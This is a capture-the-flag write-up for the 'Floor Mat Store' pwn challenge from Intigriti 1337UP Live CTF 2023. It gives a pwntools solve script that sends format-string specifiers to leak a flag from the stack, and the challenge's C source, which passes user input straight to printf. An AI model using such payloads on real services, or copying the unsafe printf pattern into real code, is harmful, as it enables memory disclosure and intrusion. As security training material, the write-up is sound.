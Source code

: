 ```yaml
---
name: Floor Mat Store (2023)
event: Intigriti 1337UP Live CTF 2023
category: Pwn
description: Writeup for Floor Mat Store (Pwn) - Intigriti 1337UP Live CTF (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Floor Mat Store

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/Zu32BHwH-sA/0.jpg)](https://youtu.be/Zu32BHwH-sA "Floor mats: Format string exploit")

## Description

> Welcome to the Floor Mat store! It's kind of like heaven.. for mats

## Solution

Watch video for full solution (format string exploit), but here's a solve script (note the index will vary from local/remote, but you can just send `%p * 100` or something instead).

```python
from pwn import *

# Connect to server
io = process('./floormats')

flag = ''

io.sendlineafter(b'Enter your choice:\n', b'6')
io.sendlineafter(b'Please enter your shipping address:\n',
                 b'%18$p %19$p %20$p %21$p')
io.recvuntil(b'Your floor mat will be shipped to:\n\n')

response = io.recv(1000)

# Split response by spaces
for i, p in enumerate(response.split(b' ')):
    try:
        if not b'nil' in p:
            try:
                # Decode, reverse endianess and print
                decoded = unhex(p.strip().decode()[2:])
                reversed_hex = decoded[::-1]
                print(str(i) + ": " + str(reversed_hex))
                # Build up flag
                flag += reversed_hex.decode()
            except BaseException as e:
                pass
    except EOFError:
        pass

# Print and close
info(flag)
io.close()
```

Running the script leaks the flag!

Flag:`INTIGRITI{50_7h475_why_7h3y_w4rn_4b0u7_pr1n7f}`

## Bonus: source code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int main(int argc, char **argv) {
    setvbuf(stdout, NULL, _IONBF, 0);

    char *mats[] = {
        "1. Cozy Carpet Mat - $10",
        "2. Wooden Plank Mat - $15",
        "3. Fuzzy Shag Mat - $20",
        "4. Rubberized Mat - $12",
        "5. Luxury Velvet Mat - $25",
        "6. Mysterious Flag Mat - $1337"
    };

    char buf[128];
    char flag[64];
    char *flag_ptr = flag;

    gid_t gid = getegid();
    setresgid(gid, gid, gid);

    FILE *file = fopen("flag.txt", "r");
    if (file == NULL) {
        printf("You have a flag.txt, right??\n");
        exit(0);
    }

    puts("Welcome to the Floor Mat store! It's kind of like heaven.. for mats.\n\nPlease choose from our currently available floor mats\n\nNote: Out of stock items have been temporarily delisted\n");

    printf("Please select a floor mat:\n\n");
    for (int i = 0; i < 5; i++) {
        printf("%s\n", mats[i]);
    }

    int choice;
    printf("\nEnter your choice:\n");
    scanf("%d", &choice);

    if (choice < 1 || choice > 6) {
        printf("Invalid choice!\n\n");
        exit(1);
    }

    int matIndex = choice - 1;

    while (getchar() != '\n');

    if (matIndex == 5) {
        fgets(flag, sizeof(flag), file);
    }

    printf("\nPlease enter your shipping address:\n");

    fgets(buf, sizeof(buf), stdin);

    printf("\nYour floor mat will be shipped to:\n\n");

    printf(buf);

    return 0;
}
```
